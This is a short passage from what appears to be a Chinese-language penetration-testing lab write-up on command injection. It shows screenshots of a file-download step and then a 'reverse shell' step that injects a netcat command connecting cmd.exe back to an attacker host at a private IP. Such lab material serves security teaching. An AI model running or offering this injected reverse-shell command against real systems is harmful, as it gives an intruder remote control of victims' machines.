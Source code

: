    ![尝试执行文件下载命令](../image/尝试执行文件下载命令.png) ![验证文件下载命令是否成功](../image/验证文件下载命令是否成功.png)

3. 反弹Shell

   在输入窗口尝试运行nc程序，通过反向Shell主动连接到攻击者主机
   
   ```cmd
   ping | c:\\nc.exe -e cmd 192.168.104.117 8080
   ```
